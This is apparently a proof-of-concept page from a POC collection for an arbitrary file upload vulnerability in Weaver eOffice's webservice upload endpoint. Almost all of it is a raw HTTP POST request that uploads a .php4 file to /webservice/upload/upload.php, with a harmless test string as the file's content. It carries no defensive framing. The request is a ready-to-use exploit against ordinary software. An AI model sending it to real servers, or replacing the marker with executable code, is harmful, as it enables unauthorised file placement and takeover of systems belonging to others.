 # eoffice_upload.php_fileupload

from: https://github.com/wy876/POC/blob/main/%E6%B3%9B%E5%BE%AE-eoffice-webservice-file-upload%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
```
POST /webservice/upload/upload.php HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept-Encoding: gzip, deflate, br
Content-Type:multipart/form-data; boundary=--------------------------553898708333958420021355

----------------------------553898708333958420021355
Content-Disposition: form-data; name="file"; filename="qq_test.php4"
Content-Type: application/octet-stream

qqtest
----------------------------553898708333958420021355--
```
